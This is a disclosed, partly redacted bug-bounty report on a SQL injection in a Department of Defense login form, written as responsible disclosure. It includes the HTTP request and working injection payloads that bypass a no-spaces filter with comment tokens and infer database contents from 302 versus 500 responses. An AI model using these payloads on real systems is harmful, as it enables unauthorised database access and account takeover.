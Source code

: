 # SQLi in login form of █████

## Report Details
- **Report ID**: 982202
- **URL**: https://hackerone.com/reports/982202
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2020-09-14T21:00:44.360Z
- **Disclosed**: 2020-09-29T20:28:46.838Z

## Reporter
- **Username**: erbbysam
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
## Summary
The following is vulnerable to a sqli, due to a limited char set this is t██████████y to demonstrate and not picked up by sqlmap.

```
POST /██████████.asp HTTP/█████.████
Host: ███████
```

## Description
```
POST /██████.asp HTTP/████.███
Host: █████
Connection: close
Content-Length: 45
Cache-Control: max-age=0
Upgr███████e-Insecure-Requests: ███
Origin: https://████
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X █████████0_████5_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4254.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?████████
Sec-Fetch-Dest: document
Referer: https://████████/wireless/index.asp
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: █████████████████

usr='/**/or/**/lastName!='&pwd=██████████
```

returns a 302 with a login error message, while an invalid column name returns a 500 error message. Note that spaces are not accepted, so I must replace them with `/**/`.

To summarize: 
`usr='/**/or/**/lastName!='&pwd=████████` -> 302
`usr='/**/or/**/abc!='&pwd=███` -> 500

case error g██████████get (which could be used to exfil data):
`usr=asdf'/**/and/**/lastName/**/in/**/(select/**/CASE/**/WHEN/**/(SELECT/**/count(*)/**/FROM/**/accounts)>███0000/**/THEN/**/'a'/**/ELSE/**/███/**/END)/**/and/**/usr!='&pwd=████` -> 302
`usr=asdf'/**/and/**/lastName/**/in/**/(select/**/CASE/**/WHEN/**/((SELECT/**/count(*)/**/FROM/**/accounts)<██████0000)/**/THEN/**/'a'/**/ELSE/**/████████/**/END)/**/and/**/usr!='&pwd=████████` -> 500

Using this, we can prove that there are 26 user accounts:
`usr=asdf'/**/and/**/lastName/**/in/**/(select/**/CASE/**/WHEN/**/((SELECT/**/count(*)/**/FROM/**/accounts)=500000)/**/THEN/**/'a'/**/ELSE/**/███████/**/END)/**/and/**/usr!='&pwd=████████` -> 302
`usr=asdf'/**/and/**/lastName/**/in/**/(select/**/CASE/**/WHEN/**/((SELECT/**/count(*)/**/FROM/**/accounts)=26)/**/THEN/**/'a'/**/ELSE/**/██████████/**/END)/**/and/**/usr!='&pwd=██████` -> 500

I have not exfiltrated any data with the exception of column names, the table name and the fact that there are 26 user accounts in this service.

**if you would like me to, I believe I can escalate this to allow me to login to this service, but I am not doing that without permission**

## Impact

SQLi, likely escalation to full service compromise

## Attachments
No attachments

